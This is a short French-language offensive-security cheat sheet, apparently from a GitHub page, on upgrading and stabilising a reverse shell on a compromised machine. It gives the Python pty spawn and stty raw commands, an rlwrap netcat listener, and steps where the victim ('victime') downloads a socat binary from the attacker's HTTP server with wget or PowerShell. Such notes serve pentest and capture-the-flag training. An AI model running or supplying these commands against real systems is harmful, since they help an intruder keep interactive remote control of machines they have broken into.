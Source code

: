 # Stabiliser un shell avec Python

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Ctrl + Z
```
stty raw -echo; fg
```
```
export TERM=xterm
```

Appuyer sur Entrée ou entrer une commande (exemple: ls)

<br>
<br>

# Avec rlwrap

Sur kali
```
sudo apt install rlwrap
```

```
rlwrap nc -lvnp <port>
```
Ctrl + Z
```
stty raw -echo; fg
```

<br>
<br>

# Avec Socat

Lien du binaire: <a href="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true">ici</a>

Sur kali
```
sudo python3 -m http.server 80
```

Sur linux [victime]
```
wget <IP>/socat -O /tmp/socat
```

Ou PowerShell [victime]
```
Invoke-WebRequest -uri <IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```


## Bonus

Pour avoir une sortie de stream plus large et noter les dimensions en rows et en cols
```
stty -a
```

sur le reverse shell
```
stty rows <number>
stty cols <number>
```
